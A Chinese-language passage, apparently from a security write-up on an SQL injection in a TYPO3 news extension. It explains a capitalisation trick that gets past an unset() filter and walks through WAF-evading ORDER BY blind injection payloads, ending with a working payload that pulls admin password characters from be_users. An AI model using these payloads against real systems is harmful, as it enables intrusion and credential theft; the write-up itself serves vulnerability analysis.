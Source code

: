 为了调用setter，将该模块给定参数的第一个字母大写。它让我们绕过unset()过滤器：通过发送大写字母O来代替OrderByAllowed，它不再会被删除，并且setOrderByAllowed（）还会被调用。

我们现在可以定义自己的orderbyallowed：我们就可以随意的使用order语法，我们得到了一个SQL注入漏洞。

开发

由于我们正在利用MySQL上的ORDER BY语句，因此我们的有效载荷必须具有以下形式：



```
IF(
    (
        ORD(SUBSTRING(
            (SELECT password FROM be_user WHERE id=1), 4, 1)
        )) = 0x41
    ),
    id,
    title
)
```

根据测试的结果，消息的排序将发生变化，从而允许我们执行基于测试的SQL注入。

但是，对于一些应用程序逻辑和WAF过滤器，我们需要绕过一些限制，以便能够利用这种SQL注入。

BadChars：

任何大写字母

任何空格

逗号

 SQL注释（由于WAF）

此外，表的名称是我们的有效载荷的前缀。 也就是说，SQL查询语句如下所示：

```
SELECT ... FROM ... ORDER BY tx_news_model_domain_news.$order
```

由于SQL不关心这种情况，所以第一个问题可以被丢弃。 第二个，连同注释，可以通过使用括号语法来绕过，例如：

```
..(SELECT(password)FROM(be_users)WHERE(id=1))...
```

逗号有点烦人，但MySQL提供了一些替代语法，例如SUBSTRING（x FROM y FOR z）而不是SUBSTRING（x，y，z）和（CASE条件WHEN 1 THEN x ELSE y END）而不是 IF（条件，x，y）。

Badchars会被过滤，所以我们现在应该专注于前缀问题。 而不是使用两个字段，我们选择一个数字字段，并将其乘以1或-1，这取决于我们的条件，像这样：

```
uid * (CASE condition WHEN 1 THEN 1 ELSE -1 END)
```

如果条件为真，消息将按照uid排序。 否则，它们将被-uid排序，这意味着它们将以相反的顺序显示。

我们的最终有效载荷如下所示：

```
id*(case(ord(substring((select(password)from(be_users)where(uid=1))from(2)for(1))))when(48)then(1)else(-1)end)
```
